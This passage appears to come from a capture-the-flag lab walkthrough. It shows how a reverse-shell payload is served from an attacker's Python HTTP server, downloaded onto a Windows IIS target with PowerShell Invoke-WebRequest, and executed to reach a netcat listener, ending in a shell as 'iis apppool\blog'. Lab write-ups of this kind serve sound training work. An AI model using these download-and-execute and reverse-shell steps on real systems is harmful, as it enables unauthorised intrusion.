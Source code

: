 No fancy `upload` command this time, so start a http server in the same folder where the payload is located.

```bash
root@ip-10-10-75-156:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

From the netcat shell download the payload on the target machine with the following powershell command.

```bash
powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/shell.exe" -OutFile "c:\windows\temp\shell.exe"
c:\Windows\Temp>powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/shell.exe" -OutFile "c:\windows\temp\shell.exe"
dir
c:\Windows\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Windows\Temp
09/22/2024  09:52 AM    <DIR>          .
09/22/2024  09:52 AM    <DIR>          ..
...
09/22/2024  09:52 AM            73,802 shell.exe
08/06/2019  02:13 PM                21 stage1-complete.txt
08/06/2019  02:13 PM            28,495 stage1.txt
05/12/2019  09:03 PM           113,328 svcexec.exe
08/06/2019  02:13 PM                67 tmp.dat
              14 File(s)        708,784 bytes
               3 Dir(s)  39,058,317,312 bytes free
```

We can confirm that the payload was successfully downloaded looking at the http server output.

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.108.43 - - [22/Sep/2024 17:44:45] "GET /shell.exe HTTP/1.1" 200 -
```

Start a listener.

```bash
root@ip-10-10-75-156:~# nc -lvnp 6666
Listening on [0.0.0.0] (family 0, port 6666)
```

Run the payload.

```bash
c:\windows\temp\shell.exe
c:\Windows\Temp>c:\windows\temp\shell.exe
```

Get the shell.

```bash
root@ip-10-10-75-156:~# nc -lvnp 6666
Listening on [0.0.0.0] (family 0, port 6666)
Connection from 10.10.108.43 49536 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\Windows\Temp>whoami
whoami
iis apppool\blog
```
